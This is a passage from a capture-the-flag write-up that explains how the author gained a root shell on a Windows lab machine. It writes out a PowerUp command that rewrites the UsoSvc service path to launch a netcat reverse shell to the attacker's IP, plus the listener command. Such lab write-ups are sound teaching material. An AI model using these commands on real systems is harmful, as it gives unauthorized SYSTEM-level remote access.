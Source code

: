 I spent quite some time trying to login somehow with the password in the "GPP". But I wasn't able to make it work.
While doing this writeup however I realized - the password should have worked. Don't know what I did wrong.

But there's more than one way to victory:
I've seen the vulnerable service but ignored it for a hopefully quick win with the password.
After that failed I gave it a shot.

[[Top]](#top)

# Root Flag
I used "powerup.ps1" again, to exploit the "UsoSvr" service.

{{< highlight cmd >}}
-----------Terminal 1--------------
$ nc -lvnp 9002

-----------Terminal 2--------------
PS C:\Users\mssql-svc> Set-ServiceBinaryPath -Name UsoSvc -Path 'C:\Users\mssql-svc\nc64.exe -e cmd 10.10.14.4 9002'
PS C:\Users\mssql-svc> restart-service UsoSvc
{{< / highlight >}}

So what happened here? First, let me cite two things of the "powerup" authors regarding services and improper permissions:

> [1]
> This misconfiguration happens when the executable associated with a service has improper permissions, allowing other users to
> write to the .exe. Since these services run as SYSTEM, if we replace the exe with our own, we can escalate quickly.
> 
> [2]
> Takes a service name [...] that the current user has configuration modification rights on and executes
> a series of automated actions to execute commands as SYSTEM.


And this box is no exception. As far as I understand it, the service is vulnerable to the 2nd variant.

![root_shell](root_shell.png)

Mission Accomplished! :)

[[Top]](#top)